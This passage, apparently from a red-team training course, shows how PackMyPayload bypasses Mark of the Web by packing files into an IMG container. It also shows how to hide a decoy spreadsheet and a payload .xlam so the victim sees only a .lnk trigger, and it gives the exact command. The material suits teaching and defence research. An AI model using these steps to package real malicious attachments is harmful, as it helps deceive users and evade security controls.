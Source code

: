 Then when it's mounted, we can see that MotW is no longer applied to the PDF.

<figure><img src="https://lwfiles.mycourse.app/66e95234fe489daea7060790-public/a4bf46c21cc2ea1da5dbd6752b7e0bf9.png" alt="" width="100%"><figcaption></figcaption></figure>

PackMyPayload also has the option to set the hidden attribute on files as they're packaged into a container.  This is useful for scenarios where you want to hide files such as the decoy and payload, so that the user only sees the trigger.

For example, if we had three files, a trigger, payload, and decoy:

```powershell
$ ls -l /mnt/c/Payloads/xlam
-rwxrwxrwx 1 rasta rasta 11607 Jun 27 13:55 decoy.xlsx
-rwxrwxrwx 1 rasta rasta 12906 Jun 27 13:55 payload.xlam
-rwxrwxrwx 1 rasta rasta  2094 Jun 28 13:55 trigger.xls.lnk
```

We can pack them into an IMG file whilst hiding _decoy.xlsx_ and _payload.xlam_ using the `-H` parameter.

```python
$ python3 PackMyPayload.py -H decoy.xlsx,payload.xlam /mnt/c/Payloads/xlam /mnt/c/Payloads/xlam/package.img
```
